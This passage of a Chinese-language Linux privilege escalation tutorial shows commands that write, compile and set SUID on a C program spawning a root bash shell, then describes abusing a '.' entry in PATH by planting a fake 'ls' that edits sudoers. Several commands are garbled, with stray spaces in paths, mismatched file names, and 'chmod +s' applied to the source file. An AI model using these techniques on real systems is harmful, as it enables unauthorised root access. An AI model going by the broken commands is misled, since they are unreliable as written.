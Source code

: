 **也可以**

`echo ‘int main() { setgid(0); setuid(0); system(“/bin/bash”); return 0; }’ > /tmp/test/suid-shell.c`

**编译：**

`gcc /tmp/test/suid-shell.c -o / tmp / 1 / suid-shel`

**赋权：**

`chmod + s /tmp/test/suid-shell.c`

**好的，我们回到要提权的服务器上**

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR387mudMPZa7LwZDCFf1xQmibw7nAKyicshwIpicghZgsCjgN1RX4k4xrythx4ckibuztEFq8VkSS8oZZQ/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

`cd / tmp./suid-shell`

**可以看到是ROOT权限了**

## linux提权-利用“.”路径配置错误

有“.” 在PATH中表示用户可以从当前目录执行二进制文件/脚本。但是一些管理员为了避免每次都必须输入这两个额外的字符，他们在用户中添加“。”在他们的PATH中。对于攻击者而言，这是提升其特权的绝佳方法。

放置.路径

如果在PATH中放置点，则无需编写./binary即可执行它。那么我们将能够执行当前目录中的任何脚本或二进制文件。

假设小明是管理员，而她添加了“。” 在她的PATH上，这样她就不必再输入两个字符了去执行脚本或二进制文件。

带“。” 在路径中–program

不带“。” 在路径中-./program

发生这种情况是因为Linux首先在“.”位置搜索程序。但是添加到PATH的开头后，就在其他任何地方搜索。

> 另一个用户“小白”知道小明添加了“.” 在PATH中，
>
> 小白告诉小明’ls’命令在他的目录中不起作用
>
> 小白在他的目录中添加代码，这将更改sudoers文件并使他成为管理员
>
> 小白将该代码存储在名为“ ls”并使其可执行
>
> 小明具有root特权。她来了，并在小白的主目录中执行了’ls’命令
>
> 恶意代码不是通过原始的’ls’命令而是通过root访问来执行
>
> 在另存为“ ls”的文件中，添加了一个代码，该代码将打印“ Hello world”
>
> ![图片](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR387mudMPZa7LwZDCFf1xQmibkjdEfWDGFZqRfQ4FL3oJShiaSuZXZtkJI24BOYb002c4hQOLSYSk4KA/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

`$ PATH = .：$ {PATH}` –添加’.’ 在PATH变量中

![图片](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR387mudMPZa7LwZDCFf1xQmibtAkxBicc37jnO0SFBXWFCibCn4x0d89iact1RsibH5fGkLPBgWwLz1oncA/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)
